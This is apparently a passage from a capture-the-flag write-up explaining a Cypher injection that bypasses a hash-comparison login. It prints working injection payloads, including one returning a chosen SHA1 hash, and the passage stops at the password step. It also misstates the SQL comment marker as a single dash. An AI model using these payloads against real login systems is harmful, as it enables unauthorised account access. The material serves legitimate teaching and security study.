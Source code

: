 ```
' OR true RETURN "hacked" AS hash //

```

The final query becomes:

```
MATCH (u:USER)-[:SECRET]->(h:SHA1)
WHERE u.name = '' OR true RETURN "hacked" AS hash //'
RETURN h.value AS hash

```

### 🔍 Let’s break it down:

- `'` closes the original string.
- `OR true` makes the condition always pass.
- `RETURN "hacked" AS hash` gives a fake result.
- `//` is a comment in Cypher — it **ignores the rest of the line**, like `-` in SQL.
- The final `' RETURN h.value AS hash` is **commented out**, so it’s ignored.

So the query **doesn't care about the database** anymore — it just returns `"hacked"` as the hash.

---

## 🧠 Why would someone do this?

Because many authentication systems work like this:

```python
result = run_cypher(query)
if sha1(password_input) == result["hash"]:
    login_success()

```

If the attacker makes `result["hash"]` equal to the hash of a password they know (like `"cypher"`), they can log in.

---

## ✅ Realistic Attack Payload Example

If I know:

- SHA1("cypher") = 27059a1e5d2f1832bc2cdd6a91b4b0da36b8b0f7

Then I enter this as the **username**:

```
' OR true RETURN "27059a1e5d2f1832bc2cdd6a91b4b0da36b8b0f7" AS hash //

```

And this as the **password**:
